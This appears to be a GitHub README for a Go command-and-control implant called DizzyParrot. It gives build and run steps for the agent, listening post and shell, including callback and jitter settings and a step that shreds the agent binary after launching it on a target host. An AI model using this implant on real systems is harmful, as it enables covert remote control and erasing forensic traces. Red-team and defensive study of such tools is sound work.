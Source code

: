 # DizzyParrot
A simple beaconing implant written in Go. DizzyParrot consist of an agent, listening post, and interactive shell. The agent communicates to the LP over HTTP/2 at a specified interval. An agent can be tasked using the interactive shell to pull and push files, and execute commands on the target host. 

## Getting Started

#### Install dependencies (Debian and Ubuntu)
```
apt update && apt -y upgrade && apt -y install build-essential postgresql screen vim
```

#### Install go
```
wget https://dl.google.com/go/go1.14.1.linux-amd64.tar.gz
tar -C /usr/local -xzf go1.14.1.linux-amd64.tar.gz

echo "export PATH=$PATH:/usr/local/go/bin" >> ~/.profile
source ~/.profile
```

#### Clone the repo using git and get go dependencies 
```
git clone https://github.com/af001/DizzyParrot.git

go get github.com/c-bata/go-prompt
go get github.com/common-nighthawk/go-figure
go get github.com/jedib0t/go-pretty/table
```

#### Build LP and shell
```
cd server; go build server.go
cd shell; go build shell.go
```

#### Build agent 
```
# Build for host Linux
go build -ldflags "-X main.name=A10000 -X main.secret=dirtyparrot -X main.callback=300 -X main.jitter=60 -X main.url=https://localhost:8443//portal/details"

# Cross-compile mips
GOOS=linux GOARCH=mips go build -ldflags "-X main.name=A10000 -X main.secret=dirtyparrot -X main.callback=300 -X main.jitter=60 -X main.url=https://localhost:8443//portal/details"
```

#### Start the LP
```
# Generate cert
cd server; mkdir certs
openssl req -newkey rsa:2048 -nodes -keyout certs/server.key -x509 -days 365 -out certs/server.crt

# Start the LP
./server -c config.yml
```
#### Start the shell
```
cd shell
./shell -c config.yml
```

#### Execute agent on target host
```
# Start agent
./client -c server.crt &

# To run in memory 
shred -fuz client server.crt
```
